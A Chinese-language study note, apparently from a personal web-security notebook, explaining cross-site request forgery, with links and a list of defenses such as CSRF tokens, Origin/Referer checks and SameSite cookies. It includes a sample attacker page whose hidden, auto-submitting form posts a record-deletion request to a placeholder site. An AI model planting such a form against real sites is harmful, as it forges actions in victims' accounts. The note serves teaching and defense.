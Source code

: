 <!--
 * @Author: your name
 * @Date: 2020-03-07 14:27:55
 * @LastEditTime: 2020-07-07 01:36:00
 * @LastEditors: Please set LastEditors
 * @Description: In User Settings Edit
 * @FilePath: \RW 笔记\web安全\scrf\介绍.md
 -->

# 介绍

跨站请求伪造 (Cross-Site Request Forgery) 是一种伪造跨站请求的攻击方式. 例如利用你在 A 站 (攻击目标) 的 cookie / 权限等, 在 B 站 (恶意/钓鱼网站) 拼装 A 站的请求.

![](https://pic002.cnblogs.com/img/hyddd/200904/2009040916453171.jpg)

# 模拟钓鱼网站代码

```html
<body>
  哈哈，给你开了个玩笑，莫生气~
  <iframe name="hiddenIframe" style="display:none"></iframe>
  <form
    action="https://xxxx.com/gift/deleteRecord"
    id="form"
    method="post"
    style="visibility:hidden"
    target="hiddenIframe"
  >
    <input type="text" name="giftId" value="ab231" />
  </form>
  <script>
    document.getElementById("form").submit();
    location.href = "http://xxxx.com";
  </script>
</body>
```

https://zhuanlan.zhihu.com/p/22521378

https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html#4497527

# 如何防御：

- 前后端不分离的话，可以用在页面中埋入 csrf_token 的形式

* 验证 referer、origin 请求头
  > 请求首部字段 Origin 指示了请求来自于哪个站点。该字段仅指示服务器名称，并不包含任何路径信息。该首部用于 CORS 请求或者 POST 请求。除了不包含路径信息，该字段与 Referer 首部字段相似。Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源，可能会以此进行统计分析、日志记录以及缓存优化等。

- jwt、 token 详情见：[前后端分离架构下 CSRF 防御机制](https://segmentfault.com/a/1190000006944760?utm_source=tag-newest)

- cookie 的 samesite 属性，限制 cookie 只能在同站中使用（可选值有： Lax, Strict 或 None）

- 重要操作加验证码（全部加的话用户体验不好）
